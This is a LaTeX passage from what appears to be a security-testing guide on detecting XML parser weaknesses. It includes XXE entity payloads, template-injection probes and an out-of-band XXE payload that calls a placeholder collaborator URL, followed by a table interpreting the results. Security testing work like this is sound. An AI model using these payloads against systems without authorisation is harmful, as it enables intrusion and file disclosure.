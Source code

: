\documentclass{article}
\begin{document}
Some parsers evaluate expressions within entities.

\begin{exploitbox}
\begin{lstlisting}[language=XML]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY test SYSTEM "7*7">
]>
<root>&test;</root>
\end{lstlisting}

Or directly in the element:
\begin{lstlisting}[language=XML]
<root>{{7*7}}</root>
<root>${7*7}</root>
<root><%= 7*7 %></root>
\end{lstlisting}
\end{exploitbox}

\subsection{2.3 External Entity Test (Out-of-Band)}

Test if the parser makes external connections.

\begin{exploitbox}
\begin{lstlisting}[language=XML]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY % xxe SYSTEM "http://YOUR-COLLABORATOR-URL">
    %xxe;
]>
<root>test</root>
\end{lstlisting}
\end{exploitbox}

\textbf{Monitor:} DNS lookups and HTTP requests to your collaborator.

\subsection{2.4 Detection Results Matrix}

\begin{table}[h]
\centering
\begin{tabular}{|l|l|l|}
\hline
\textbf{Test} & \textbf{Positive Result} & \textbf{Conclusion} \\
\hline
Simple Entity & Entity replaced with value & XML parsing enabled \\
\hline
Math Evaluation & 49 returned & Expression evaluation possible \\
\hline
OOB Detection & DNS/HTTP callback & External entities enabled \\
\hline
Error Message & File not found error & Error disclosure possible \\
\hline
\end{tabular}

\end{table}
\end{document}
